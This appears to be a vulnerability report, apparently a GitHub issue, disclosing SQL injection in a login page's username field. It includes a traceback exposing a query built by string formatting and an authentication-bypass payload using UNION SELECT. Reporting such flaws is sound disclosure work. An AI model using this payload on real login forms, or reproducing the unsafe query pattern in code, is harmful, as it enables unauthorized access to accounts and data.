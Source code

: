 
## Title
> SQLi in username field.

## Description
> In the "login" page, Username has SQL Injection vulnerability.

## Reproduction Steps
1. Go to login page /login
2. Username: admin'--
3. Password: password1
4. Press Log In button
5. --> Error you see
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```
6. Username: admin' UNION SELECT "password1" as password FROM admins where ' '=' ';--
7. Password: password1
8. Press Log In button!